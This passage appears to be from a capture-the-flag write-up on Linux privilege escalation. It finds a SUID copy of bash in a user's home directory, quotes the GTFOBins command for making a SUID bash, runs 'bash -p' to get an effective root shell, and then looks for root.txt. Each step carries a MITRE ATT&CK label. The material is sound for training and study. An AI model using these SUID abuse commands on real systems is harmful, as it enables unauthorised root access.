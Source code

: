 /bin/ping

/bin/umount

/home/james/.suid\_bash

* "/home/james/.suid\_bash" looks of interest.

ls -la /home/james/

\[...snip...]

\-rwsr-sr-x 1 root root 1113504 Jul 22 2020 .suid\_bash

\[...snip...]

#### **Check GTFOBins for SUID exploits of bash (Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** <a href="#id-77t41rihlnix" id="id-77t41rihlnix"></a>

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges. This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path. sudo install -m =xs $(which bash) . ./bash -p

#### **Escalate privileges using exploit (Privilege Escalation: Abuse Elevation Control Mechanism: Setuid and Setgid (T1548.001))** <a href="#id-9g8ilwgwisd4" id="id-9g8ilwgwisd4"></a>

cd /home/james

/.suid\_bash -p

\=whoami

root

id

uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

**What's the root flag?**

cd /

find / -name root.txt -type f 2>/dev/null

/root/root.txt
